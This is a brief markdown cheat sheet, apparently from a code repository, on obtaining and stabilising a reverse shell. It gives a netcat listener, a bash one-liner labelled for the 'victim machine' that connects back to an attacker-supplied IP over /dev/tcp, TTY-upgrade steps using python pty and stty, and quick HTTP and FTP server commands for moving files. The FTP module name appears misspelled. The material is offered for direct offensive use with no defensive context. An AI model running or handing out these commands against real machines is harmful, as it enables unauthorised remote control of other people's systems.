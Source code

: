 # Reverse Shell Cheatsheet

## Spawning a shell
### Creating stable shell
On your local machine
```console
~$ sudo nc -lvnp 9001
```
On victim machine
```console
~$ bash -c "bash -i >& /dev/tcp/{your_IP}/9001 0>&1"
```

### Making shell interactive
```bash
~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
~$ stty raw -echo; fg
~$ export TERM=xterm
```

## Making Servers
### HTTP
```bash
~$ sudo python3 -m http.server {PORT-NUMBER}
```
### FTP
```bash
~$ sudo python3 -m pyftpdblib -p 21 -w
```



